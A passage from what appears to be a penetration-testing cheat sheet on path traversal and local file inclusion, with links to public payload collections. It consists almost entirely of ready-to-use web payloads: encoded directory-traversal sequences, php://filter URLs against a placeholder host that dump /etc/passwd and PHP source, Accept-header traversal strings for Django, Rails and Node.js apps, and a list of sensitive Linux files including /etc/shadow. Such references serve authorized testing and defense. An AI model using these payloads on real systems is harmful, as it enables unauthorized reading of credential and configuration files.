 ```c
../
..\
..\/
%2e%2e%2f
%252e%252e%252f
%c0%ae%c0%ae%c0%af
%uff0e%uff0e%u2215
%uff0e%uff0e%u2216
..././
...\.\
```

##### php://filter Wrapper

> https://medium.com/@nyomanpradipta120/local-file-inclusion-vulnerability-cfd9e62d12cb

> https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion

> https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion#wrapper-phpfilter

```c
url=php://filter/convert.base64-encode/resource=file:////var/www/<RHOST>/api.php
```

```c
http://<RHOST>/index.php?page=php://filter/convert.base64-encode/resource=index
http://<RHOST>/index.php?page=php://filter/convert.base64-encode/resource=/etc/passwd
base64 -d <FILE>.php
```

##### Django, Rails, or Node.js Web Application Header Values

```c
Accept: ../../../../.././../../../../etc/passwd{{
Accept: ../../../../.././../../../../etc/passwd{%0D
Accept: ../../../../.././../../../../etc/passwd{%0A
Accept: ../../../../.././../../../../etc/passwd{%00
Accept: ../../../../.././../../../../etc/passwd{%0D{{
Accept: ../../../../.././../../../../etc/passwd{%0A{{
Accept: ../../../../.././../../../../etc/passwd{%00{{
```

##### Linux Files

```c
/etc/passwd
/etc/shadow
/etc/aliases
/etc/anacrontab
/etc/apache2/apache2.conf
/etc/apache2/httpd.conf
/etc/apache2/sites-enabled/000-default.conf
/etc/at.allow
/etc/at.deny
/etc/bashrc
/etc/bootptab
/etc/chrootUsers
/etc/chttp.conf
/etc/cron.allow
/etc/cron.deny
/etc/crontab
/etc/cups/cupsd.conf
/etc/exports
/etc/fstab
/etc/ftpaccess
/etc/ftpchroot
```